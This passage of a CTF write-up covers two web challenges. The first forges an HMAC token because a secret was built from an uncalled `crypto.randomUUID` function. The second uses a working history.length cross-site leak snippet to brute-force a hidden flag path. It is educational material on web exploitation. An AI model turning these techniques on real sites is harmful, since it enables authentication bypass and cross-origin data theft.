 If you are careful, you can spot the issue here: `crypto.randomUUID` is a function, but it is not called. Let's see what this looks like:

```javascript
> const crypto = require('crypto')
undefined
> const secret = `secret-${crypto.randomUUID}`;
undefined
> secret
'secret-function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
  "    validateObject(options, 'options');\n" +
  '  const {\n' +
  '    disableEntropyCache = false,\n' +
  '  } = options || {};\n' +
  '\n' +
  "  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');\n" +
  '\n' +
  '  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();\n' +
  '}'
> 
```

Well, it looks like we know the secret. Looking at the source, we see that the flag is at `id=0`, so we generate a token for that:

```javascript
> crypto.createHmac('sha256', secret).update('0').digest('hex')
'7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264'
```

Making a request to
```
https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
```

gives us the flag.

### web/dicevault

tl;dr use a combination of `history.go(-x)` and undocumented `history.length` xsleak to guess the location of a window and brute force flag path directory-by-directory.

unintended: open vault window, redirect to your origin and get it to click vault buttons on your origin :(


```js
      async function isLocation(win, url) {
        win.location = "about:blank";
        await sleep();
        const hlen1 = win.history.length;
        win.history.go(-1);
        await sleep();
        win.location = url + "#zzzzz";
        win.location = "about:blank";
        await sleep();
        const hlen2 = win.history.length;

        // reset history to initial state before running this function
        if (hlen1 + 1 === hlen2) {
          win.history.go(-2);
        } else if (hlen1 === hlen2) {
          win.history.go(-1);
        }
        return hlen1 + 1 === hlen2;
      }
```